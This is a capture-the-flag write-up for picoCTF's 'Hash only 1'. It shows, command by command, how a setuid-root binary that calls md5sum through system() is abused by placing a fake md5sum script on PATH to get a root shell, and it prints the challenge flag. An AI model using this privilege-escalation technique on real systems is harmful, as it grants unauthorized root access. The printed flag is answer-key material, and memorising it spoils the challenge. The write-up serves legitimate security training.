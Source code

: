 # Hash only 1

`Author: Junias Bonou`

> Description: Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. If only it could just give you the actual content! Running the instance given in challenge we get the follwing commands to connect to remote server using ssh.

```
SSH command: ssh ctf-player@shape-facility.picoctf.net -p <PORT>

SSH password: <PASSWORD>

Copy binary to local machine:  scp -P <PORT> ctf-player@shape-facility.picoctf.net:~/flaghasher .
```

Firstly, i logged into remote server using ssh.

There i ran some commands to check my authority.

```bash
ctf-player@pico-chall$ whoami
ctf-player

ctf-player@pico-chall$ ls
flaghasher

ctf-player@pico-chall$ ./flaghasher 
Computing the MD5 hash of /root/flag.txt.... 

<MD5_HASH_OF_FLAG>  /root/flag.txt

ctf-player@pico-chall$ cd /root
Computing the MD5 hash of /root/flag.txt.... 

a02bbc9ebf913b57ee486b51accacf17  /root/flag.txt

ctf-player@pico-chall$ cd /root
-bash: cd: /root: Permission denied
```

We can see the user `ctf-player` has no access to root

Let's run `ls -la` to check permissions of executable `flaghasher`

```bash
ctf-player@pico-chall$ ls -la
total 24
drwxr-xr-x 1 ctf-player ctf-player    20 Apr 11 03:24 .
drwxr-xr-x 1 root       root          24 Mar  6 03:44 ..
drwx------ 2 ctf-player ctf-player    34 Apr 11 03:24 .cache
-rw-r--r-- 1 root       root          67 Mar  6 03:45 .profile
-rwsr-xr-x 1 root       root       18312 Mar  6 03:45 flaghasher

```

So executable `flaghasher` has root access.
umm... interesting

Let's use the other command initally given to make a copy of binary `flaghasher` in our local machine.

```bash
scp -P <PORT> ctf-player@shape-facility.picoctf.net:~/flaghasher .
```

Now after getting a copy of binary on local machine run `ltrace` command on binary.

The ltrace command in Linux is used to trace library calls made by a program. It shows you the calls to shared libraries (like libc, libm, etc.) and the arguments passed to them. It's especially useful for debugging and reverse engineering when you want to see what functions a binary is using without looking at the source code.

```bash
$ ltrace ./flaghasher    
_ZNSt8ios_base4InitC1Ev(0x564eb510f271, 0xffff, 0x7ffd621003b8, 320)            = 2
__cxa_atexit(0x7f9535075ae0, 0x564eb510f271, 0x564eb510f008, 320)               = 0
_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc(0x564eb510f040, 0x564eb510d010, 0x7ffd621003b8, 352) = 0x564eb510f040      
_ZNSolsEPFRSoS_E(0x564eb510f040, 0x7f95350f0650, 0x564eb510f040, 1024Computing the MD5 hash of /root/flag.txt....
)          = 0x564eb510f040
_ZNSolsEPFRSoS_E(0x564eb510f040, 0x7f95350f0650, 0x564eb510f040, 0x7f9534e91210
) = 0x564eb510f040
sleep(2)                                                                        = 0
_ZNSaIcEC1Ev(0x7ffd6210024b, 0, 0, 0x7f9534e68073)                              = 0x7ffd6210024b
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEC1EPKcRKS3_(0x7ffd62100250, 0x564eb510d040, 0x7ffd6210024b, 0x7f9534e68073) = 0x564ec6ceb6c0
_ZNSaIcED1Ev(0x7ffd6210024b, 0x564eb510d040, 36, 0x564ec6ceb6c0)                = 0x7ffd6210024b
setgid(0)                                                                       = -1
setuid(0)                                                                       = -1
_ZNKSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE5c_strEv(0x7ffd62100250, 0x564eb510d040, 0, 0x7f9534e84f04) = 0x564ec6ceb6c0 
system("/bin/bash -c 'md5sum /root/flag."...md5sum: /root/flag.txt: Permission denied
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                          = 256
_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc(0x564eb510f160, 0x564eb510d068, 0, 0x7f9534e25ec4Error: system() call returned non-zero value: ) = 0x564eb510f160
_ZNSolsEi(0x564eb510f160, 256, 0x564eb510f160, 0x7f9534e91210256)                  = 0x564eb510f160
_ZNSolsEPFRSoS_E(0x564eb510f160, 0x7f95350f0650, 0x564eb510f160, 0x7f9534e91210
) = 0x564eb510f160
_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEED1Ev(0x7ffd62100250, 0, 0x7f9534f75563, 0x7f9534e91210) = 0x564ec6cd9010      
+++ exited (status 1) +++

```

Focus on the line 

```
system("/bin/bash -c 'md5sum /root/flag.".
```

`md5sum` command is being invoked by the binary in order to create md5 hash of the flag situated at `/root/flag.txt`.

If we can somehow use our custom vulnerable `md5sum` named script instead of real `md5sum` script, we can gain the root shell access.

What to do -
- make binary named `md5sum` within the same directory as flaghasher
- add bash script path (`/bin/sh`) to it, so that it will run bash whenever invoked 
- give it executable permission using `chmod +x md5sum`
- append current directory (.) to list of path containing executable (`$PATH`)
- Now when you run the `flaghasher` binary the vulnerable `md5sum` will be the first to get invoked during execution of `flaghasher` and will give us access to the root shell
- Hence we can navigate to `/root` and use `cat` to get our flag printed.

Let's do it, log in to ssh first and then use these commands -

```
ctf-player@pico-chall$ echo "/bin/sh" > md5sum

ctf-player@pico-chall$ chmod +x ./md5sum

ctf-player@pico-chall$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

ctf-player@pico-chall$ export PATH=.:$PATH

ctf-player@pico-chall$ echo $PATH
.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

ctf-player@pico-chall$ ./flaghasher 
Computing the MD5 hash of /root/flag.txt.... 

# ls
flaghasher  md5sum
# cd /root               
# ls
flag.txt
# cat flag.txt
picoCTF{sy5teM_b!n@riEs_4r3_5c@red_0f_yoU_0c1fd083}# 
```


yooo, we got our flag!!! 

In this way we have solved this challenge.